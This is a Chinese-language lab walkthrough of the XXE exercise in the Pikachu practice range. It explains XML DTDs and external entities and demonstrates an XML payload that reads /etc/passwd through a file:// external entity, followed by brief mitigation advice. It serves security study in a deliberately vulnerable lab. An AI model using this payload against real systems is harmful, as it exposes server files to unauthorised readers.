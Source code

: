 # Pikachu靶场通关之XXE漏洞

## 1、XXE漏洞概述-XML外部实体注入攻击

![image-20210104113810510](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104113810510.png)

```
XXE -"xml external entity injection"
既"xml外部实体注入漏洞"。
概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"
也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

具体的关于xml实体的介绍,网络上有很多,自己动手先查一下。
现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。
以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。

本章提供的案例中,为了模拟漏洞,通过手动指定LIBXML_NOENT选项开启了xml外部实体解析。
```

## 2、什么是XML-可扩展标记语言

具体xml是啥可以参考[xml教程](https://www.runoob.com/xml/xml-usage.html)

XML分为三部分：XML声明、DTD文档约束（XXE漏洞出问题的地方）、文档元素

```xml
<!-- xml声明-->
<?xml version="1.0" encoding="UTF-8"?>

<!-- 文档类型定义DTD: xxe出问题的地方-->
<!-- 1.DTD内部引用-->
<!DOCTYPE  根元素 [元素说明]>
<!-- 2.DTD外部引用-->
<!DOCTYPE 根元素名称 SYSTEM "外部DTD的URI">
<!-- 3.引用公共DTD-->
<!DOCTYPE 根元素名称 PUBLIC "DTD标志名" "公用DTD的URI">


<!-- 文档元素：真正的数据部分-->
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

![image-20210104113947422](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104113947422.png)

![image-20210104125922980](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104125922980.png)

会导致XXE漏洞的就是外部实体，下面看一个例子:引用外部实体构造读取/etc/passwd的payload

```xml
<?xml version="1.0"?> //这是一个声明
<!DOCTYPE ANY [       //DTD定义文档的类型any
	<!ENTITY f SYSTEM "file:///etc/passwd">  
//约束这里定义了一个外部实体，用system这个关键字来指定外部实体，然后用file来读取文件，把文件的内容赋值给f
]>
<x>&f;</x>  //通过读取x标签里面的f就可以读取etc/passwd里面的内容
```

![image-20210104130106302](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104130106302.png)

## 3、案列解读

php里simplexml_load_string()是将xml文档转换成SimpleXMLElement对象，php里解析xml用的是libxml库，而libxml在2.9.0版本之后是默认禁止解析xml外部实体内容的，所以后面的版本默认不会有xxe漏洞的。

![image-20210104131233108](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104131233108.png)

## 4、靶场演练

结合靶场中的源码审计，这里的意思是读取到xml文档数据就在`<pre>`标签里输出，读取不到xml或者读的xml格式错误就返回"XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?"。

![image-20210104132242986](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104132242986.png)

这里是一个正常的XML，我们来测试一下。

![image-20210104132455205](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104132455205.png)

把下面这串代码，提交，看看返回结果~

```xml
<?xml version="1.0"?> 
<!DOCTYPE note [       
	<!ENTITY hacker "Harveysn0w">  
]>
<name>&hacker;</name>
```

![image-20210104132823931](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104132823931.png)

这里直接把变量hacker里面的值返回出来了。

那么接下面我们通过DTD去定义一个外部实体。我们使用下面的payload

```xml
<?xml version="1.0"?> 
<!DOCTYPE ANY [       
	<!ENTITY f SYSTEM "file:///etc/passwd">  
]>
<x>&f;</x> 
```

![image-20210104133215276](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210104133215276.png)

我们可以看到，这里直接把我们外部实体传入的文件给读取出来了。

## 5、防范措施

不要-开启了外部实体解析

需要-对传过来的数据做任何过滤



































